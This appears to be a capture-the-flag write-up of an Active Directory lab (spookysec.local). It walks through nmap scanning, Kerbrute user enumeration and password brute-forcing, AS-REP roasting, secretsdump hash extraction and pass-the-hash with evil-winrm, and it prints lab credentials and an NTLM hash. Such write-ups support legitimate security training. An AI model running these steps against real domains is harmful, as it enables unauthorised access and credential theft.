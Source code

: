 ### Enumeration
  ```
    naabu -host <target-ip>
  ```

 ```This is a faster tool to detect open ports quickly. After getting open ports, use nmap to identify running services.```


  ```
Nmap 7.95 scan initiated Wed Apr 30 08:30:02 2025 as: /usr/lib/nmap/nmap --privileged -sV -Pn -p3389,389,455,80,139,88,135,53 -oN services.txt 10.10.31.26
Nmap scan report for 10.10.31.26
Host is up (0.44s latency).

PORT     STATE  SERVICE        VERSION
53/tcp   open   domain         Simple DNS Plus
80/tcp   open   http           Microsoft IIS httpd 10.0
88/tcp   open   kerberos-sec   Microsoft Windows Kerberos (server time: 2025-04-30 05:30:38Z)
135/tcp  open   msrpc          Microsoft Windows RPC
139/tcp  open   netbios-ssn    Microsoft Windows netbios-ssn
389/tcp  open   ldap           Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
455/tcp  closed creativepartnr
445/tcp open  microsoft-ds?
3389/tcp open   ms-wbt-server  Microsoft Terminal Services
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr 30 08:30:14 2025 -- 1 IP address (1 host up) scanned in 12.11 seconds

  ```

---
- Ok The domain name appear in ldap => **spookysec.local**
- To access => **spookysec.local\User**

---

### Enumerating Valid Usernames and Credentials
- we can enumerate valid usernames and perform password spraying using the powerful tool Kerbrute.

- you can install follow this link 
  **https://github.com/ropnop/kerbrute/releases**

- Enumerate Valid Usernames
  ```bash
  ./kerbrute userenum --dc 10.10.131.202 -d spookysec.local users.txt
  ```

![](images/user.png)
- There are very important account 
  - svc-admin 
  - administrator 
  - backup 

- Bruteforce the Password of a Valid User **svc-admin**
 ```bash
  ./kerbrute bruteuser --dc 10.10.131.202 -d spookysec.local password.txt  svc-admin

  ```
```Success: You found valid credentials for svc-admin```
![](images/pass.png)

---
```After get username and password I used **xfreerdp3** to make remote connection by desktop```
```bash
xfreerdp3 /u:svc-admin /p:management2005 /:u<ip>
```
![](images/sv-admin-flag.png)
---


- There are another Attack called **AS-REP Roasting** which do not 

  require Kerberos pre-authentication. When this setting is disabled for 

  a user, it's possible to request a Kerberos AS-REP response containing an encrypted hash that can be cracked offline.
 by using: ```impacket => GetNPUsers.py```

  - create wordlist by valid user you collect them

  - use this command to see if user  requres Kerberos Pre-Authentication or not

    ```bash

    GetNPUsers.py spookysec.local/ -usersfile users.txt -no-pass -request

    ```
![](images/AS-REP%20Roasting.png)

-  This is **Kerberos hash** that retrieve from the KDC called **Kerberos 5 AS-REP etype 23** and mode hash it **18200**
---


- I use my script to discover shares folders > check access > read content to make operation easily
you can find it here => 
```https://github.com/A-h-M-e-D1/Active_Directory/blob/main/Automated-Tools/Expsmb.py```

- result
![](images/res.png)

- Take the encode value and decode it and then found
![](images/cred.png)

- after get new creditinals **backup:backup2517860** let's open remote connectin with this 

  ```
  xfreerdp3 /u:backup /p:backup2517860 /v:<ip>
  ```

---


```here we get the access into machine and the flag```

![](images/flag2.png)

---

- ```next we need to escalate our privileges into **administrator** so let's try to dump hash by **sesecretsdump.py**```

```
sesecretsdump.py  spookysec.local/ backup:backup2517860@<target-ip>
```
```and here we get hashes```
![](images/hashes.png)
![](images/krb.png)


- <b>The structure of this hashes is
  <username>:<RID>:<LM hash>:<NTLM hash>:::
  example:
  Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::</b>

- **administrator NTLM is <0e0363213e37b94221497260b0bcb4fc>**

- ```From this hash we can doing pass-the-hash by evil-winrm ```

```bash
 evil-winrm -i <target-ip> -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```
```Yessss, we access into administrator account```
![](images/pass-the-hash-done.png)

-  ```flaaaaaaag```
![](images/flag3.png)


```
- username and password wordlists
**https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt**
**https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt**
```
